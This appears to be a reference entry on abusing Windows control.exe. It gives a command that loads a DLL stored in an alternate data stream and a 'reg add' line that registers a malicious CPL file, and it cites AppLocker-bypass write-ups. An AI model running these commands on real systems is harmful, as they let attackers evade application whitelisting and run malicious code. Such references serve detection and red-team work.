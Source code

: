 ## Control.exe

* Functions: Execute, Read ADS

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Acknowledgements:
* Jimmy - @bohops

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
* https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/
* https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
* https://twitter.com/bohops/status/955659561008017409

Full path:
```
C:\Windows\system32\control.exe    
C:\Windows\sysWOW64\control.exe     
```

Notes:
Add registry in HKCU\Software\Microsoft\Windows\currentversion\controlpanel\CPLS to manipulate.
```
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls"
/v EvilCPL.cpl /t REG_SZ /d "C:\Folder\EvilCPL.cpl"
```

 